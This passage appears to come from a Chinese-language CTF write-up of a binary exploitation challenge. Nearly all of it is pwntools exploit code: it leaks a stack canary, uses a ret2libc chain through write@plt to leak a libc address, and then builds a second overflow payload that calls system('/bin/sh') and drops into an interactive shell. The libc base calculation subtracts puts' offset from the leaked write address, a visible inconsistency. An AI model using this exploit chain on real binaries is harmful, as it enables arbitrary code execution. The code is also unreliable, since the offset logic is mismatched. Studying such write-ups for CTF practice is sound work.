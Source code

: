 接下来会输出刚刚的内容，因为我们直接保存canary之后用

```python
line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[1]", line, ":", hex_string)

line = p.recvline()
canary= int(line,16)
print("[2]", line, ":", format(canary, 'x'))

line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[3]", line, ":", hex_string)
```

接下来按照普通ret2libc做就好了，拿write的plt和got输出

需要注意返回值的\x00不会覆盖，所以\x7f后面可能有乱码遗留，所以格式化一下

然后直接返回main开头再来一次

```python
payload = (b'A'* 248 + p64(canary) + b'B'* 8 +
           p64(0x0401313) + p64(write_got) +
           p64(write_plt) + p64(0x0401201))
p.sendline(payload)

data = p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')
print("[!!!]data= ", data, ":", format(u64(data), 'x'))
```

接下来让程序再次走到第二次输出

```python
line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[1]", line, ":", hex_string)

p.sendline(b"TEST")

line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[2]", line, ":", hex_string)

line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[3]", line, ":", hex_string)
```

最后算个地址，然后调用system

```python
write_addr = u64(data)
print(format(write_addr, 'x'))
libc_base = write_addr - libc.symbols['puts']
print(format(libc_base, 'x'))
system_addr = libc_base + libc.symbols['system']
print(format(system_addr, 'x'))
bin_bash = libc_base + next(libc.search(b'/bin/sh'))
print(format(bin_bash, 'x'))

payload = (b'A'* 248 + p64(canary) + b'B'* 8 +
           p64(0x0401313) + p64(bin_bash) +
           p64(system_addr+27) + p64(0x04011FD))
p.sendline(payload) 

p.interactive()
```
